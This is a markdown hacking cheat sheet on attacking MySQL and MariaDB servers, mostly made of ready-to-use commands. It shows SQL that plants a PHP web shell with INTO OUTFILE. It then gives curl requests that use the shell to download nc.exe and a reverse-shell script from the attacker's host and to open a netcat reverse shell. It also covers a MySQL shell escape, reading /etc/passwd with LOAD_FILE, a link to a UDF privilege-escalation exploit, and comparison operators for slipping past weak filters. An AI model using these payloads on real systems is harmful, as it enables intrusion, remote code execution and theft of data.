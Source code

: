 # MySQL Hacking

## Login
For `mysql` including [[MariaDB-Hacking]]:
```bash
mysql -u $username -p $password -h $HOST
mysql -u root -h $HOST

mysql>\! sh # run a sh shell from mysql!
```

## INTO SHELL Shell
```sql
-- PHP
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
curl "http://$ip/shell.php?cmd=whoami"
curl "http://$ip/shell.php?cmd=certutil+-urlcache+-f+http://$ip/nc.exe+nc.exe"
curl "http://$ip/shell.php?cmd=wget+http://$ip/reverse_shell.sh"
curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+$ip+4444+-e+powershell.exe"
```
## Misconfigurations

[Raptor.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf.c)

## Exploit 

The basic methodology for exploiting MySQL:
-   Access the remote database using administrator credentials
-   Create a new table in the main database
-   Inject PHP code to gain command execution
	    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
-   Drop table contents onto a file the user can access  
-   Execute and obtain RCE on the host.

Either 

```sql
CREATE TABLE users(
id INT AUTO_INCREMENT,
   first_name VARCHAR(100),
   last_name VARCHAR(100),
   email VARCHAR(50),
   password VARCHAR(20),
   location VARCHAR(100),
   dept VARCHAR(100),
   is_admin TINYINT(1),
   register_date DATETIME,
   PRIMARY KEY(id)
);
```

Or use `SELECT * LOAD_FILE('/etc/passwd')`

  `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

## Bypassing Defences

#### Comparison Operators

To bypass weak detection on the equals operator here are all the comparison operators in MySQL
[MySQL comparison operators](https://dev.mysql.com/doc/refman/8.0/en/comparison-operators.html)
```sql
>  -- Greater than operator
>=  -- Greater than or equal operator
<  -- Less than operator
<>, !=  -- Not equal operator
<=  -- Less than or equal operator
<=>  -- NULL-safe equal to operator
=  -- Equal operator
BETWEEN ... AND ...  -- Whether a value is within a range of values
COALESCE()  -- Return the first non-NULL argument
GREATEST()  -- Return the largest argument
IN()  -- Whether a value is within a set of values
INTERVAL()  -- Return the index of the argument that is less than the first argument
IS  -- Test a value against a boolean
IS NOT  -- Test a value against a boolean
IS NOT NULL  -- NOT NULL value test
IS NULL  -- NULL value test
ISNULL()  -- Test whether the argument is NULL
LEAST()  -- Return the smallest argument
LIKE  -- Simple pattern matching
NOT BETWEEN ... AND ...  -- Whether a value is not within a range of values
NOT IN()  -- Whether a value is not within a set of values
NOT LIKE  -- Negation of simple pattern matching
STRCMP()  -- Compare two strings
```
## References

[Raptor.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf.c)
